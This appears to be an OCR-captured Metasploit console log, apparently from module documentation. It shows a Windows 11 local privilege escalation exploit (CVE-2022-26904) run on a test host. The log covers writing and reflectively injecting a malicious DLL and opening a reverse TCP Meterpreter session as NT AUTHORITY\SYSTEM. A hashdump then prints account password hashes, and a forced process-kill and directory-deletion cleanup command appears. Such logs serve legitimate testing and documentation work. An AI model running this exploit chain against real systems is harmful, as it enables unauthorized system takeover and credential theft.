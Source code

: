 ```


Exploit target:

   Id  Name
   --  ----
   0   Windows 11


msf6 exploit(windows/local/cve_2022_26904_superprofile) > check

[*] Checking if PromptOnSecureDesktop mitigation applied...
[+] PromptOnSecureDesktop is set to 1, should be safe to proceed!
[*] The target appears to be vulnerable. Vulnerable Windows 11 build detected!
msf6 exploit(windows/local/cve_2022_26904_superprofile) > exploit

[*] Started reverse TCP handler on 172.19.70.15:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if PromptOnSecureDesktop mitigation applied...
[+] PromptOnSecureDesktop is set to 1, should be safe to proceed!
[+] The target appears to be vulnerable. Vulnerable Windows 11 build detected!
[*] Step #1: Checking target environment...
[*] Payload DLL is 8704 bytes long
[*] Writing malicious DLL to C:\Users\normal\AppData\Local\Temp\UXjPXpYr.dll
[*] Marking DLL as full access for Everyone so that there are no access issues as the secondary user...
[*] Step #3: Loading the exploit DLL to run the main exploit...
[*] Launching netsh to host the DLL...
[+] Process 7144 launched.
[*] Reflectively injecting the DLL into 7144...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[!] Cleanup may not occur automatically if you aren't using a Meterpreter payload so make sure to run the following command upon session completion:
[!] taskkill /IM "consent.exe" /F || taskkill /IM "narrator.exe" /F || taskkill /IM "narratorquickstart.exe" /F || rmdir /q /s C:\Users\TEMP || rmdir /q /s C:\Windows\System32\Narrator.exe.local
[!] You may need to run this more than once to ensure these files are properly deleted and Narrator.exe actually closes!
[*] Sending stage (200262 bytes) to 172.19.78.176
[*] Meterpreter session 2 opened (172.19.70.15:4444 -> 172.19.78.176:49795 ) at 2022-03-28 17:19:15 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
Background session 2? [y/N]
msf6 exploit(windows/local/cve_2022_26904_superprofile) > sessions

Active sessions
===============

  Id  Name  Type                     Information                       Connection
  --  ----  ----                     -----------                       ----------
  1         meterpreter x64/windows  WIN11-TEST\normal @ WIN11-TEST    172.19.70.15:38009 -> 172.19.78.176:4444  (172.19.78.176)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WIN11-TEST  172.19.70.15:4444 -> 172.19.78.176:49795  (172.19.78.176)
meterpreter > hashdump
admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
normal:1002:aad3b435b51404eeaad3b435b51404ee:a38673ad58b19421e952fc317b62c3c4:::
normal2:1003:aad3b435b51404eeaad3b435b51404ee:ccc4aa1760d894d251095afc974ee2e3:::
```